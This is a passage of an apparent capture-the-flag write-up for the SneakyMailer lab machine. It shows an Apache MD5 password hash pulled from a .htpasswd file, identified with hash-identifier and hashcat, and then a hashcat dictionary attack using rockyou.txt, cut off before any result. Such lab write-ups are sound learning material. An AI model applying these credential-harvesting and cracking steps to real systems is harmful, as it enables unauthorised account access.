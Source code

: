 found what looked like a hash for a user `pypi` in `.htpasswd` in the `pypi.sneakycorp.htb` folder

```text
┌──(zweilos㉿kali)-[~]
└─$ hash-identifier hashes                                                          
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

 Not Found.
--------------------------------------------------
 HASH: $apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/

Possible Hashs:
[+] MD5(APR)
--------------------------------------------------
```

the hash came up as type MD5\(APR\)

```text
┌──(zweilos㉿kali)-[~]
└─$ hashcat --help | grep -i APR                                                    
   1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR)            | FTP, HTTP, SMTP, LDAP Server
```

hashcat's help ID'd it at an Apache MD5 hash

### Finding user creds

```text
┌──(zweilos㉿kali)-[~]
└─$ hashcat -a0 -m1600 --username htb/sneakymailer/hash /usr/share/wordlists/rockyou.txt         
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
```